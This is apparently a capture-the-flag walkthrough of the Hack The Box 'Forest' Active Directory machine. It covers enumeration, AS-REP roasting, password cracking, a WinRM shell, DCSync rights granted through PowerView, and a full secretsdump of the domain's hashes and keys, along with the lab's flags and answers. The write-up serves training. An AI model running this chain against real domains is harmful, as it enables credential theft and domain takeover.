

Forest Walkthrough
Let's start the target machine and spawn a pwnbox or fire up your local kali vm.

First we will use $target variable for ease of reference throughout.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ export target=10.129.95.210
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ ping $target
PING 10.129.95.210 (10.129.95.210) 56(84) bytes of data.
64 bytes from 10.129.95.210: icmp_seq=1 ttl=127 time=8.36 ms
64 bytes from 10.129.95.210: icmp_seq=2 ttl=127 time=7.64 ms
```

As always, we start enumerating to find out what services are running on this machine and look for a potential vulnerability.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ nmap -sV -sC -p- $target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-05-17 04:34 CDT
Nmap scan report for 10.129.95.210
Host is up (0.0078s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-05-17 09:41:42Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        Microsoft Windows RPC
49685/tcp open  msrpc        Microsoft Windows RPC
49700/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-05-17T02:42:33-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m50s, deviation: 4h02m31s, median: 6m48s
| smb2-time:
|   date: 2026-05-17T09:42:34
|_  start_date: 2026-05-17T09:39:08
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.59 seconds
```

Task 1: For which domain is this machine a Domain Controller?

The answer can be extracted from our nmap scan, which shows that the domain controller is htb.local.

Answer: htb.local

Task 2: Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM

Based on the nmap scan, I initially thought the answer might be SMB, but a quick smbclient scan shows that anonymous login is successful, but it does not list any shares for further enumeration.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ smbclient -L $target
Password for [WORKGROUP\ciupi]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.95.210 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Not to worry, we still have a couple of options to purse. Let's try to see what ldap gives us. A good tool to use is either ldapsearch or crackmapexec ldap.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ ldapsearch -H ldap://$target -x -b "DC=htb,DC=local"
# extended LDIF
#
# LDAPv3
# base <DC=htb,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# htb.local
dn: DC=htb,DC=local
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=htb,DC=local
instanceType: 5
whenCreated: 20190918174549.0Z
whenChanged: 20260517093858.0Z
subRefs: DC=ForestDnsZones,DC=htb,DC=local
<snip>
```

Answer: LDAP

We use -x flag for simple authentication and -b to specify the domain controller.
We do get some information but we need to filter through it. My inital thought is to have a look at the users enlisted in the list, so we add objectClass to filter through them and list the matching lines with the use of grep.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ ldapsearch -H ldap://$target -x -b "DC=htb,DC=local" "(objectClass=user)" | grep sAMAccountName
sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: FOREST$
sAMAccountName: EXCH01$
sAMAccountName: $331000-VK4ADACQNUCA
sAMAccountName: SM_2c8eef0a09b545acb
sAMAccountName: SM_ca8c2ed5bdab4dc9b
sAMAccountName: SM_75a538d3025e4db9a
sAMAccountName: SM_681f53d4942840e18
sAMAccountName: SM_1b41c9286325456bb
sAMAccountName: SM_9b69f1b9d2cc45549
sAMAccountName: SM_7c96b981967141ebb
sAMAccountName: SM_c75ee099d0a64c91b
sAMAccountName: SM_1ffab36a2f5f479cb
sAMAccountName: HealthMailboxc3d7722
sAMAccountName: HealthMailboxfc9daad
sAMAccountName: HealthMailboxc0a90c9
sAMAccountName: HealthMailbox670628e
sAMAccountName: HealthMailbox968e74d
sAMAccountName: HealthMailbox6ded678
sAMAccountName: HealthMailbox83d6781
sAMAccountName: HealthMailboxfd87238
sAMAccountName: HealthMailboxb01ac64
sAMAccountName: HealthMailbox7108a4e
sAMAccountName: HealthMailbox0659cc1
sAMAccountName: sebastien
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: mark
sAMAccountName: santi
```

Task 3: Which user has Kerberos Pre-Authentication disabled?

A quick google search reveals that this type of attack is called ASREProast. So let's see what tools we have available to further exploit this. Let's try rpcclient for further enumeration.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ rpcclient -U "" -N $target
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
rpcclient $>
```

As the first users are default users created either by AD or Exchange, we will focus on the other ones.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ cat users.txt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

With the use of GetNPUsers.py from Impacket, we can list the accounts that have kerberos pre-authentication disabled.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ GetNPUsers.py htb.local/ -usersfile users.txt -no-pass -request -format hashcat -dc-ip $target
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:a74c88003bbe6dd62f88f6db78190966$91623eca7a0bbd0d4c4e845154c922887b48a6778d3c405f9bac89f9b8a68742c5a696e7387153b3c2783f06e326a5be31b4b4b4d99c8d6e1b9336312567b4d24a6a6405c2484dcdaae23e3ce69a0a60c53b94454dff7d0a2815ef6219807b9380a543acbf6245054fb3b5650d714f69d7216c2d3c2ac5297f091382b468a67540d1368a10c52b2ec9cae3044f549a77100e652e71682a5e83ed36dd0f022a63128fa78e65d5f967c01b12b0e00da88f7211f9e46a8c3d7d1ee90673daa0d0064b8ecb428c84538eb7a22e873fe07f6d93071bee55549dc6fd9ae0fea558cbe2a73261a59982
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Answer: svc-alfresco

Task 4: What is the password of the user svc-alfresco?

We have the hash from our previous question so let's try to crack it using john.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2026-05-17 07:22) 0.3194g/s 1305Kp/s 1305Kc/s 1305KC/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Task 5: To what port can we connect with these creds to get an interactive shell?

Going back to our initial scan, let's have another look at the open ports. If we take each port listed we will see that winrm is running on this machine. WinRM is a remote management tool used by system administrators to effectively manage multiple windows machines remotely.

Answer: 5985

Task 6: Submit the flag located on the svc-alfresco user's desktop.

The most popular tool we have is evil-winrm, which is an open-source framework designed explicitly for penetration testing and interacting with Windows systems via WinRM.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ evil-winrm -i $target -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-alfresco> dir


    Directory: C:\Users\svc-alfresco


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/23/2019   2:16 PM                Desktop
d-r---        9/22/2019   4:02 PM                Documents
d-r---        7/16/2016   6:18 AM                Downloads
d-r---        7/16/2016   6:18 AM                Favorites
d-r---        7/16/2016   6:18 AM                Links
d-r---        7/16/2016   6:18 AM                Music
d-r---        7/16/2016   6:18 AM                Pictures
d-----        7/16/2016   6:18 AM                Saved Games
d-r---        7/16/2016   6:18 AM                Videos


*Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/17/2026   2:39 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
ff991b9dea22a3f85dffcf69d3e56386
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop>
```

Answer: ff991b9dea22a3f85dffcf69d3e56386

Task 7: Which group has WriteDACL permissions over the HTB.LOCAL domain? Give the group name without the @htb.local.

This is where I got stuck and did some research on how to use bloodhound for AD visualisation and potential privilege escalation.

On kali, you might have to install this manually, but I already had this installed on my pwnbox, so I simply ran:

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~/forest]
└──╼ [★]$ bloodhound
```

This will open up the bloodhound community edition window where you can upload you ingest data.
Now I found a really straightforward script you can run to collect this data from Tyler Ramsbey's github.
https://github.com/TeneBrae93/offensivesecurity/blob/main/active-directory/ad-bloodhound.sh

Simply add the information requested and you should see the following json files in your directory.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~/Downloads]
└──╼ [★]$ ./bloodhound.sh
Domain:
htb.local
Username:
svc-alfresco
Password:
s3rvice
IP of Domain:
10.129.95.210
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 33 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 04S

┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~/Downloads]
└──╼ [★]$ ls
20260517094343_computers.json   20260517094343_domains.json  20260517094343_groups.json  20260517094343_users.json  SharpHound.ps1
20260517094343_containers.json  20260517094343_gpos.json     20260517094343_ous.json     bloodhound.sh
```

Now inside the bloodhound app, login using the default credentials neo4j/neo4j and click upload and wait for the visualisation tool to do its magic.
Search for our compromised user and mark it as owned.
Right click -> shortest path to here and check the lines for WriteDacl permissions.

Answer: Exchange Windows Permissions

Task 8: The user svc-alfresco is a member of a group that allows them to add themself to the "Exchange Windows Permissions" group. Which group is that?

On the left hand side you will have the option to filter by group membership and the only high value target is ACCOUNT OPERATORS@HTB.LOCAL



Answer: ACCOUNT OPERATORS

Task 9: Which of the following attacks you can perform to elevate your privileges with a user that has WriteDACL on the domain? PassTheHash, PassTheTicket, DCSync, KrbRelay

When we rightclick on WriteDacl vector, we can see more info and ways to abuse this attack vector. As stated under windows abuse tab: "To abuse WriteDacl to a domain object, you may grant yourself DCSync privileges."

Answer: DCSync

Task 10: Submit the flag located on the administrator's desktop.

Alright, we have come a long way from our initial scan and its time for us to finally escalate our privileges to administrator.

Doing some research on DCSync attack, we can add users to privileged groups, so let's try to do that.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> net user john abc123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> net group "Exchange Windows Permissions" john /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.
```

Feel free to get more creative with the name and password. I used the poc credentials.
On your local machine, download the following script that we will upload to the shell.
https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

Once downloaded, move it to your home folder and inside the evil-winrm shell, execute the following:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> upload PowerView.ps1

Info: Uploading /home/ciupi/PowerView.ps1 to C:\Users\svc-alfresco\appdata\Local\temp\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\Local\temp> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

```

Now back to our machine, we can extract the secret hashes by running the following command:

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ secretsdump.py 'htb.local/john:abc123!@10.129.95.210'
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
john:10101:aad3b435b51404eeaad3b435b51404ee:44f077e27f6fef69e7bd834c7242b040:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:30c8c186ae0d1cd4ead6713d6c0c61a1:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
